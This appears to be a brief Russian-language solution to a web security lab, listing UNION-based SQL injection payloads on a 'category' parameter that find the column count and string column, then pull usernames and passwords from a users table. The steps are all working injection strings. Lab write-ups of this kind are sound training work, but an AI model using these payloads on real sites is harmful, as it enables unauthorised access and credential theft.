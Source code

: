 1) Переходим в категорию Accessories
2) Меняем запрос:
category=Accessories'+UNION+SELECT+NULL,NULL--
3) Обнаруживаем, что строковый тип имеет второй параметр:
category=Accessories'+UNION+SELECT+NULL,'a'--
4) Производим следующий запрос:
category=Accessories'+UNION+SELECT+NULL,username||password+FROM+users--
